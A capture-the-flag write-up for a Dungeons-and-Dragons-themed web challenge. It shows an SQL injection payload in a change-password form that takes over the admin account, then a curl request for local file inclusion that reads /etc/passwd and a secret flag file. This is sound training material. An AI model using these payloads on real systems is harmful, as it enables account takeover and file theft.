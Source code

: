 #### Challenge:

Regeneration spans the universe and all possible universes: a point of contact between space and time that brings the subject back to life in a new body, leaving last damage in the souls of those who undergo it, with unforeseen influences that can also fracture time. R-Boy awakes and has the solution in his pocket, but he does not feel like embarking on such a selfish path. He decides to embrace his own “end of days”.

[Enter the Tavern](http://gamebox1.reply.it/b39baab8d6970c154faea87446cdd9efe902822f/)

---

#### Solution:

We are provided with a website concerning Dungeons and Dragons. After skipping the intro page, we have to either `Register` or `Login`. So after registering with fake e-mail and password, we are able to login using them.

As a logged-in user we see tabs `Main Menu`, `Profile`, `Master` and `Logout`.
- `Master` tab is not accessible for mere users, it is probably some kind of admin-like backend into which we have to get somehow.
- `Profile` tab has `Change Password` functionality with 3 inputs: `Email`, `Old password` and `New password`, which is weird, because that indicates that you could change someone elses password from your account (?).
- `Main Menu` contains an image of the DnD dice, after clicking on it, you get `Dice Roller` functionality, where you can roll the dice by typing `/r 1d6`. Inspecting the javascript behind it, we see it contains email of the master user `master@a3cda178-595c-4cc9-a8f5-ff5a0a7de2d0.com` (Note that it is randomly generated for each normal user).

With the master's e-mail we tried to change master's password in the profile tab using `SQL Injection: ' or 1=1` instead of his `Old password`. After that we logged out from the user account and logged in as the master with his e-mail and new password.

The master has the same tabs as user account but the `Master` tab is accessible. On it, there is select-box with options `campaign.txt`, `player1.txt` and `player2.txt`, a `Load button` and text area which shows the content of the loaded file. This points to `LFI`. Trying the request using `curl` with the file parameter `note` changed to `/etc/passwd`:

```bash
curl 'http://gamebox1.reply.it/b39baab8d6970c154faea87446cdd9efe902822f/admin' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: en,en-US;q=0.9,sk;q=0.8,cs;q=0.7,ru;q=0.6,uk;q=0.5' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: session=.eJwljzluxDAMRe-iOg5IURunmpsYFBckCCYD2J4qyN0jIN0v_vL-T9rj8PMj3a7j5W9p_7R0SySdKro3aaYBCAouHIjYdEBTLVFjOtAEzCNPdJxcwMeUXJZgRkNrDO69OOeGBkqTDZZHpjaomTpGz2pGVb1za2WKMsboVdICeZ1-_NM85Lz8uAupCfaxVa66FVXeZETdIqqAdPNs8K7PxwrrecR-Pb_8e8XBW1QeQYimTjCsRelrKeey7pD4KmSl9PsH5mNNTQ.Y4tgug.NHETpEJvxqbDqavs_7NpO15TpFI' \
  -H 'DNT: 1' \
  -H 'Origin: http://gamebox1.reply.it' \
  -H 'Referer: http://gamebox1.reply.it/b39baab8d6970c154faea87446cdd9efe902822f/admin' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36' \
  --data-raw 'note=/etc/passwd'
```

Redirects us to `/troll` page which contains following hint hidden in the source code:

```text
<!-- TODO: review all the /secret notes and make them accessible. See: https://pastebin.com/TJMXHEB9 -->
```

The `pastebin` shows that the source code is filtered for "allowed_paths", while the hint itself tells us to check for `"/secret"` notes.

Trying with `note=/secret/flag.txt` gives us the flag.

---

<details><summary>FLAG:</summary>

```
{FLG:Plz_d0nt_st34l_my_n0t3s}
```

</details>
